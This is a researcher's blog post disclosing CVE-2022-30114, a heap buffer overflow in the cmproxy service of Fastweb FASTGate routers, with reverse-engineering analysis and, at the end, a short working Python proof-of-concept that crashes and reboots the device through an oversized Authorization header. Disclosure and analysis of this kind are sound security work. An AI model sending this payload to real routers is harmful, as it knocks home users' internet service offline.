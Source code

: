 ```yaml
---
layout: post
title:  "Fastweb FastGate 'cmproxy' buffer overflow (CVE-2022-30114)"
date:   2023-05-12 19:43:16 +0200
categories: jekyll update
---
```

## Introduction
CVE-2022-30114 is an unauthenticated ***heap-based* buffer overflow** that affects **[Fastweb FASTGate](https://www.fastweb.it/myfastweb/assistenza/guide/FASTGate/)** home routers, both **GPON and VDSL2** versions.

![Fastweb FASTgate](https://www.fastweb.it/myfastweb/gfx/assistenza/kb-sf/Manuali%20modem%20Fastweb/FASTGate/Fastgate.jpg)
*Fastweb FASTgate*

The vulnerability lies in the *'cmproxy'* executable, a custom program used by Fastweb operators for remote management of the device, which handles HTTP requests through a Lighttpd FastCGI webserver listening on TCP port 8888. A specially crafted HTTP request allows a remote attacked to crash the executable and reboot the device, causing a Denial of Service.

**Credits:** Thanks to [@FrancYesc0](https://github.com/FrancYescO/tch_firmware_extracted.git) for the firmware dumps! 
### CVSS v3.x
**Base Score:** [7.5 HIGH](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H&version=3.1C) **Vector:** CVSS:3.1/[AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H&version=3.1)

### Affected devices
* **Technicolor MediaAccess FGA2130FWB** (GPON) - Version 18.3.n.0482_FW_233_FGA2130 and below 
* **Technicolor MediaAccess DGA4131FWB** (VDSL2) - Version 18.3.n.0482_FW_264_DGA4131 and below

## Vulnerabilty details
The devices are vulnerable to a *heap-based* buffer overflow, caused by the lack of validation of the length of the '*Authorization*' HTTP header value on the web service exposed on **TCP port 8888**. The service is exposed on both the WAN and the LAN interfaces of the device[^1].

[^1]: WAN access was disabled as a compensative control after the first disclosure to Fastweb. As of writing, _the service is still exposed on the internal LAN_.

A remote, unauthenticated attacker, sending a string longer than 100 bytes in the '*Authorization*' HTTP header, causes an overflow in a pre-allocated buffer in the *'.bss'* memory section of an executable file called *'cmproxy'* which handles HTTP requests sent on the mentioned service above via FastCGI protocol.

This allows to overwrite the heap memory, causing the process to become corrupted and crash on the first memory allocation. It's worth noting that the C library version used (GNU C Library - glibc v2.24) contains protection measures to detect heap corruption but it is not excluded, however, that by deepening the analysis it would be possible to overwrite heap structures and achieve code execution.

## Technical analysis
Starting from the usual port scan on the device, TCP port 8888 was found open, both on LAN and WAN side.

![Open ports on LAN side](/resources/f56272761b26feaf30effab8b2e20d46.png)
*NMAP scan on LAN side*

A quick `grep` for '8888' on the firmware filesystem (again, thanks [@FrancYesc0](https://github.com/FrancYescO/tch_firmware_extracted.git) for extrated firmware!) revealed that the port was used by a Lightttpd web server instance. Below is the configuration file, found in `/etc_tss/lighttpd/lighttpd.conf`.

```
# lighttpd configuration file

server.modules = (
    "mod_fastcgi",
    "mod_access",
    "mod_auth"
)

# force use of the "write" backend (closes: #2401)
server.network-backend = "write"
server.document-root = "/www2/"
server.port = 8889
server.pid-file = "/var/run/lighttpd.pid"
server.errorlog-use-syslog = "enable"
server.bind = "127.0.0.1"

#### fastcgi module
fastcgi.server = (
    "/perftest" => (
        "cmproxy-local" => (
            "socket" => "/tmp/cmproxy-fastcgi-1.socket",
            "bin-path" => "/bin/cmproxy",
            "max-procs" => 4,
            "check-local" => "disable",
        )
    ),
    "/" => (
        "cmproxy-local" => (
            "socket" => "/tmp/cmproxy-fastcgi-2.socket",
            "bin-path" => "/bin/cmproxy",
            "max-procs" => 4,
            "check-local" => "disable",
        )
    )
)

$ SERVER ["socket"] == ":8888" {
    ssl.engine = "enable"
    ssl.pemfile = "/etc/nginx/server.crt"
}
```

The server is listening on TCP port 8888 with an HTTPS service ad it uses *FastCGI* to handle HTTP requests through a custom application in the path `/bin/cmproxy` (architecture is 32bit ARM).

![Vulnerable executable file](/resources/50a1ddbcc727aed285635b71513c30ea.png)

Using Ghidra, the famous open-source reverse engineering tool by NSA, it was possible to reconstruct the executtion flow and to verify that there is a specific function that process all the input coming from the HTTP request. This function was deliberately renamed '*parse_args*'.

![Reverse engineering - 'main' function](/resources/0b80f8cd9ae20d3a090410ff743a1353.png)

This function is used to:
* retrieve all the data coming from the HTTP request from the environment variables (filled by the web server using FastCGI protocol);
* parse the data and fill local and global data structures, which will be used by the program for further processing;
* handle error cases.

In particular, the '*Authorization*' HTTP header is passed in the 'HTTP_AUTHORIZATION' environment variable and its address is saved in the local variable *http_authorization*, a string pointer.

![Reverse engineering - input data parsing](/resources/4b987801b4d22cc8a5cfd0d256340168.png)

Further on in the code, the string value is copied, using C library function *strcpy*, to the address of the variable'*auth_string*'. This copy is done **without any control on the length of the string itself**...

![Reverse engineering - *strcpy*](/resources/e08d913fb2a5253805d62cbf1b73a699.png)

This variable is an uninitialized global, thus in the *'.bss'* section of the ELF file, and it points to a 100 bytes buffer at the address *0x0002434c*.

![Reverse engineering - Buffer in *.bss* ](/resources/520247d3278a1c3eafdc994b1088f5e0.png)

Therefore, sending a string value longer than 100 characters in the 'Authorization' HTTP header causes *strcpy* to smash the buffer in the '.bss' and overwrite everything is saved after the address *0x00025000*.
That memory segment contains the *heap*, so the buffer overflow causes the corruption of the data structures of the dynamic memory allocation used by the C library.

The picture below shows an example of the execution of the *cmproxy* application in an emulated enviroment using QEMU. The FastCGI is simulated by filling directly environment variables. *Authorization* header is a string of 3780 bytes, way longer than the allocated buffer. As expected, the buffer overflow corrupts the heap data structures and when the next *malloc* is called the C library (GNU C Library - glibc v2.24) detects the memory corruption and terminates the execution as a safeguard. 

![Application crash](/resources/1a9cdf474cf549b8dd352bb11befcc1a.png)

On the physical device, the application crash causes the reboot of the machine.

### *PoC exploit*
Here is a quick-and-dirty exploit in Python code.

```python
#!/usr/bin/env python3

# PoC for MediaAccess FGA2130FWB cmproxy buffer overflow

import sys
import requests

def exploit(target):
    url = 'https://{}:8888/check?cmd=xxx'.format(target)
    authorization = 'Basic ' + 'A' * 3780

    r = requests.get(url, headers = {'Authorization': authorization})

if __name__ == '__main__':

    if len(sys.argv) < 2:
        print('Not enough arguments\nUsage: %s <target>' %(sys.argv[0]))
        sys.exit()

    target = sys.argv[1]
    print('[*] Exploiting \'%s\'' % target)
    try:
        exploit(target)
    except Exception as e:
        print(e)
        sys.exit()

    print('[*] Exploit sent. \'%s\' should reboot', target)

```
